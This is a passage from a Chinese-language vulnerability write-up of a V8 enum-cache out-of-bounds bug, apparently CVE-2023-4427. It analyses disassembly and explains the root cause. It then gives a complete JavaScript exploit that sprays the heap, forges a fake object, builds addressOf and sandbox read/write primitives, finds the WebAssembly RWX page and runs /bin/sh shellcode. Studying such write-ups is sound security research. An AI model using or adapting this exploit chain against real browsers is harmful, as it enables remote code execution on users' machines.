   0x55ece00042f8:      movabs r8,0x3d0400049729
   0x55ece0004302:      cmp    DWORD PTR [r8-0x1],ecx
   0x55ece0004306:      jne    0x55ece00045a6
   0x55ece000430c:      mov    r9d,DWORD PTR [rcx+0x17]
   0x55ece0004310:      mov    r9d,DWORD PTR [r14+r9*1+0xb]
   0x55ece0004315:      mov    r9d,DWORD PTR [r14+r9*1+0x7]
   0x55ece000431a:      add    r9,r14
   0x55ece000431d:      cmp    r9d,0x6cd
   0x55ece0004324:      je     0x55ece00045aa
   0x55ece000432a:      mov    r11d,DWORD PTR [rbp-0x48]
   0x55ece000432e:      mov    r9d,DWORD PTR [r9+r11*4+0x7]
   0x55ece0004333:      sar    r9d,1
   0x55ece0004336:      movsxd r12,r9d
   0x55ece0004339:      mov    r15,r12
   0x55ece000433c:      and    r15d,0x1
   0x55ece0004340:      mov    r15d,r15d
   0x55ece0004343:      test   r15d,r15d
   0x55ece0004346:      jne    0x55ece00044cd
   0x55ece000434c:      test   r9d,r9d
   0x55ece000434f:      jl     0x55ece0004362
   0x55ece0004355:      mov    r9d,DWORD PTR [r8+r12*2+0xb]                     根据idx来访问，这里出现越界
   0x55ece000435a:      add    r9,r14
……………………
```



先取描述符数组，接着取enum cache，然后取enum\_cache.key，最后然后取对应的enum\_cache的length（这个length根据map来确定，因此造成了oob



map、enum\_cache.key、length放到栈上

接着map的检查，然后取key[0]



接着取存在栈上的map，然后检查map是否发生变化

依次分别取出描述符数组、enum cache、enum\_cache.indices



取出了enum\_cache.indices[0]，也就是对应的key，接着通过[r8 + r11\*2 + 0xb]取到value



这里还是check map，但是这里变成了-0x38，原因是因为前面push了两个值



取key[1]

下面的流程其实就已经开始重复了，因为这是一个循环



这里是一个越界，因为原本的obj1对应的enum cache的size就是1，所以这里二就已经是越界了，取出了一个0x6a5的值，这就对应着新的idx的值，然后越界出了0x6a5，因为是smi，所以会右移1位，也就是/2



这里在取值，也就是说，通过这个map去向后索引这么多`[r8 + r12*2 + 0xb]`，结合前面的/2，其实也就是obj2的map+0x6a4+0x8，这个的结果是让这个地址成为一个对象。

所以利用思路也就出来了，这里设obj2的地址为A，这里使得A+0x6a5+0x8的值落在一个可控的范围内，其实不难想到伪造对象，因为他是解引，所以这里需要伪造一个被指向的地址的区域是一个obj，稳定可控的话，可以想到适用通用对象的堆喷

这里的思路借鉴了[@XiaozaYa师傅](https://blog.csdn.net/qq_61670993/article/details/137133853)，非常巧妙，且成功率高

调试的时候遇到一些问题

1. debug和release版本的堆布局不一样，而且差距会很大
2. TurboFan优化之后，堆布局会发生变化

需要通过调整对象的分配大小，最后才能成功触发poc，并得到fakeobj

# exp

```
var buf = new ArrayBuffer(8);
var f32 = new Float32Array(buf);
var f64 = new Float64Array(buf);
var u8 = new Uint8Array(buf);
var u16 = new Uint16Array(buf);
var u32 = new Uint32Array(buf);
var u64 = new BigUint64Array(buf);

function stop(){
    %SystemBreak();
}
    
function p(arg){
    %DebugPrint(arg);
}

function spin(){
    while(1){};
}

function lh_u32_to_f64(l,h){
    u32[0] = l;
    u32[1] = h;
    return f64[0];
}

function f64_to_u32l(val){
    f64[0] = val;
    return u32[0];
}

function f64_to_u32h(val){
    f64[0] = val;
    return u32[1];
}


function f64_to_u64(val){
    f64[0] = val;
    return u64[0];
}


function u64_to_f64(val){
    u64[0] = val;
    return f64[0];
}


function hex(str){
    return str.toString(16).padStart(8,0);
}

function logg(str,val){
    console.log("[+] "+ str + ": " + "0x" + hex(val));
}

var victim_array = new Array(0xf400);
var rw_array = new Array(0xf400);

var victim_element_start_addr = 0x00282130;
var rw_array_element_start_addr = 0x00242128;

var fake_map_addr = victim_element_start_addr + 0x1000;
var fake_obj_addr = victim_element_start_addr + 0x2000;
// 0xe3f000cf0c8:  0x000c3d01      0x32040404      0x15000842      0x0a0007ff
victim_array[0x1000 / 8] = lh_u32_to_f64(victim_element_start_addr+0x200+1,0x32040404);
victim_array[0x1000 / 8 + 1] = lh_u32_to_f64(0x15000842,0x0a0007ff);
victim_array[0x2000 / 8] = lh_u32_to_f64(fake_map_addr+1,0x000006cd);
victim_array[0x2000 / 8 + 1] = lh_u32_to_f64(rw_array_element_start_addr+1,0x3d000);

// 调整堆风水，保证target_addr_array于obj2的距离合理，这样才可以让返回的对象地址落在target_addr_array里
var pad = new Array(0x10000);

var obj1 = {};
obj1.a = 1;
var obj2 = {};
obj2.a = 1;
obj2.b = 1;
// 调整堆风水，保证target_addr_array于obj2的距离合理，这样才可以让返回的对象地址落在target_addr_array里
var target_addr_array = new Array(0x400).fill(lh_u32_to_f64(fake_obj_addr+1,fake_obj_addr+1));
var obj3= {};
obj3.a = 1;
obj3.b = 1;
obj3.c = 1;


// init enum cache
for (let i in obj3){}

function trigger(callback){
    for (let key in obj2){
        if (key == 'b'){
            callback();
            return obj2[key];
        }
    }
}

for (let i = 0; i < 0x20000; i++){
    trigger(_=>_);
    trigger(_=>_);
    trigger(_=>_);
    trigger(_=>_);
}


// p(victim_array);
// p(rw_array);
// p(obj2);
// p(target_addr_array);

let evil = trigger(
    _=>{
        obj3.c = 1.1;
        for (let i in obj1){}
    }
)
if ((typeof evil) != "object"){
    console.log("[x] oob fail, check again!");
}else {
    console.log("[+] oob success");
    // p(victim_array);
    // p(rw_array);
    // p(obj2);
    // p(target_addr_array);

    function addressOf(obj){
        victim_array[0x2000 / 8 + 1] = lh_u32_to_f64(rw_array_element_start_addr+1,0x3d000);
        rw_array[0] = obj;
        return f64_to_u32l(evil[0]);
    }


    function cage_read(addr){
        victim_array[0x2000 / 8 + 1] = lh_u32_to_f64(addr+1-8,0x3d000);
        return f64_to_u64(evil[0]);
    }

    function cage_write_4bytes(addr,val){
        let org_val = cage_read(addr);
        // console.log(((org_val)));
        victim_array[0x2000 / 8 + 1] = lh_u32_to_f64(addr+1-8,0x3d000);
        evil[0] = lh_u32_to_f64(val,Number(org_val >> 32n));

    }

    function cage_write_8bytes(addr,val){
        victim_array[0x2000 / 8 + 1] = lh_u32_to_f64(addr+1-8,0x3d000);
        evil[0] = u64_to_f64(val);
    }

    function copy_shellcode_to_rwxpage(){
        var buffer = new ArrayBuffer(0x20);
        var data_view = new DataView(buffer);
        var data_view_addr = addressOf(data_view);
        // p(data_view);
        var backing_store_addr = data_view_addr-0x44-1+0x20;
        logg("data_view_addr",(data_view_addr));
        logg("backing_store_addr",(backing_store_addr));
        // // p(data_view);
        cage_write_8bytes(backing_store_addr,rwx_page_addr);

        for (let i = 0; i < 3; i++){
            data_view.setBigInt64(0+i*0x8,shellcode[i],true);
        }
    }

    var shellcode = [
        0x2fbb485299583b6an,
        0x5368732f6e69622fn,
        0x050f5e5457525f54n
    ];

    var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
    var wasmModule = new WebAssembly.Module(wasmCode);
    var instance = new WebAssembly.Instance(wasmModule, {});
    var pwn = instance.exports.main;

    var instance_addr = addressOf(instance)-1;
    var jump_table_addr = instance_addr+0x48;
    var rwx_page_addr = cage_read(jump_table_addr);
    logg("instance_addr",instance_addr);
    logg("jump_table_addr",jump_table_addr);
    logg("rwx_page_addr",rwx_page_addr);

    copy_shellcode_to_rwxpage();
    pwn();
}

// spin();
```



# 参考文章

<https://bugs.chromium.org/p/chromium/issues/detail?id=1470668>

<https://blog.csdn.net/qq_61670993/article/details/137133853>

<https://bbs.kanxue.com/thread-280786.htm>

<https://paper.seebug.org/3081/>

<https://cwresearchlab.co.kr/entry/CVE-2023-4427-PoC-Out-of-bounds-memory-access-in-V8>

<https://rycbar77.github.io/2023/12/01/CVE-2023-4427%E5%88%86%E6%9E%90%E4%B8%8E%E5%A4%8D%E7%8E%B0/#Build>
